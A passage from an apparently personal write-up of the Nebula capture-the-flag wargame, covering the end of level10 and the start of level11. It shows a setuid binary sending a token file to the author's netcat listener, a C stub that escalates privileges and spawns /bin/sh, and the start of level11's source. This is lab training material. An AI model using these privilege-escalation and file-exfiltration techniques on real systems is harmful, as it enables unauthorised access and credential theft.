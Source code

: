 ```bash
Connecting to 192.168.217.1:18211 .. Connected!
Sending file .. wrote file!
```

On my netcat listener I now had:

```bash
~ » nc -lk 18211
.oO Oo.
#include<stdio.h>

int main(void) {
    setresuid(geteuid(), geteuid(), geteuid());
    system("/bin/sh");
    return 0;
}

.oO Oo.
615a2ce1-b2b5-4c76-8eed-8aa5c4015c27
.oO Oo.
615a2ce1-b2b5-4c76-8eed-8aa5c4015c27
.oO Oo.
615a2ce1-b2b5-4c76-8eed-8aa5c4015c27
.oO Oo.
```

With the token file read, we end the level:

```bash
level10@nebula:/home/flag10$ su - flag10
Password:
flag10@nebula:~$ getflag
You have successfully executed getflag on a target account
```

## level11

[Level11's Description](https://exploit-exercises.com/nebula/level11/):

> The setuid binary at /home/flag10/flag10 binary will upload any file given, as long as it meets the requirements of the access() system call.

With the description we are provided with the source code of a small PHP program:

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <fcntl.h>
#include <stdio.h>
#include <sys/mman.h>

/*
 * Return a random, non predictable file, and return the file descriptor for it.
 */

int getrand(char **path)
{
  char *tmp;
  int pid;
  int fd;

  srandom(time(NULL));

  tmp = getenv("TEMP");
  pid = getpid();
```
